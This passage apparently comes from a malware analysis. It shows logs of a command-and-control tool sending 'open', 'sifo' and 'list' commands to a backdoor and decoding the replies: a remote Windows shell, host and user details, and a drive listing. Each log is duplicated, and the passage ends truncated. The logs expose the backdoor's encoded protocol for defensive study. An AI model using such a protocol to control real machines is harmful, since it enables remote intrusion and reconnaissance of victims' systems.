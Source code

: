 [+] Sending Command: open | Encoded: CN5YGK3Q
[+] Raw Data Received: ULCBMGAGCAJVUWG4TPONXWM5BAK5UW4ZDPO5ZSAW2WMVZHG2LP
[+] Raw Data Received: ATABMGAGCBNYQDMLRRFY3TMMBRLUGQUQ3POB4XE2LHNB2CAKDD
[+] Raw Data Received: HTPDMGAGCCFEQDEMBQHEQE22LDOJXXG33GOQQEG33SOBXXEYLU
[+] Raw Data Received: BNJWMGAGCDNFXW4LRAEBAWY3BAOJUWO2DUOMQHEZLTMVZHMZLE
[+] Raw Data Received: UARCMGAGCEFYGQUDIKIM5FYVLTMVZHGXCKN5ZWQICHOJ2W46TX
[+] Raw Data Received: UJRAMGAGC0MVUWOXCEMVZWW5DPOA7A
[+] Decoded Data Received: Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users\Josh Grunzweig\Desktop>




1234567891011

[+] Sending Command: open | Encoded: CN5YGK3Q[+] Raw Data Received: ULCBMGAGCAJVUWG4TPONXWM5BAK5UW4ZDPO5ZSAW2WMVZHG2LP[+] Raw Data Received: ATABMGAGCBNYQDMLRRFY3TMMBRLUGQUQ3POB4XE2LHNB2CAKDD[+] Raw Data Received: HTPDMGAGCCFEQDEMBQHEQE22LDOJXXG33GOQQEG33SOBXXEYLU[+] Raw Data Received: BNJWMGAGCDNFXW4LRAEBAWY3BAOJUWO2DUOMQHEZLTMVZHMZLE[+] Raw Data Received: UARCMGAGCEFYGQUDIKIM5FYVLTMVZHGXCKN5ZWQICHOJ2W46TX[+] Raw Data Received: UJRAMGAGC0MVUWOXCEMVZWW5DPOA7A[+] Decoded Data Received: Microsoft Windows [Version 6.1.7601]Copyright (c) 2009 Microsoft Corporation. All rights reserved. C:\Users\Josh Grunzweig\Desktop>





Example sending the ‘sifo’ command:





[+] Sending Command: sifo | Encoded: CONUWM3Y
[+] Raw Data Received: FUBWMGAGIANQ6TCNZSFYYTMLRRFYYTKMZGMM6VOSKOFVGEUTCW
[+] Raw Data Received: PGHRMGAGIBGJHEWSKPJNICAW2KN5ZWQICHOJ2W46TXMVUWOXJG
[+] Raw Data Received: MMAZMGAGI0N46TMLBRFQZTE
[+] Decoded Data Received: l=172.16.1.153&c=WIN-LJLV2NKIOKP [Josh Grunzweig]&o=6,1,32




12345

[+] Sending Command: sifo | Encoded: CONUWM3Y[+] Raw Data Received: FUBWMGAGIANQ6TCNZSFYYTMLRRFYYTKMZGMM6VOSKOFVGEUTCW[+] Raw Data Received: PGHRMGAGIBGJHEWSKPJNICAW2KN5ZWQICHOJ2W46TXMVUWOXJG[+] Raw Data Received: MMAZMGAGI0N46TMLBRFQZTE[+] Decoded Data Received: l=172.16.1.153&c=WIN-LJLV2NKIOKP [Josh Grunzweig]&o=6,1,32





Example listing the contents of the C:\ drive:





[+] Sending Command: list C:\ | Encoded: CNRUXG5BAIM5FY
[+] Raw Data Received: QKTUMGAGLAGB6CIUTFMN4WG3DFFZBGS3T4GIYDCNJPGAZS6MRW
[+] Raw Data Received: EKNPMGAGL0EAYTIORUGA5DKN34GB6DEMS6
[+] Raw Data Received: RKMAMGAGLAGF6GC5LUN5SXQZLDFZRGC5D4GIYDAOJPGA3C6MJQ
[+] Raw Data Received: NMSIMGAGL0EAZDCORUGI5DEMD4GI2HYMZSLY
[+] Raw Data Received: OHRWMGAGLAGB6EE33POR6DEMBRGUXTAMZPGI3CAMJWHIZDIORQ
[+] Raw Data Received: DPDUMGAGL0GJ6DA7BSGJPA
[+] Raw Data Received: WIKGMGAGLAGF6GE33PORWWO4T4GIYDCNBPGA3C6MRYEAYDAORS
* Truncated*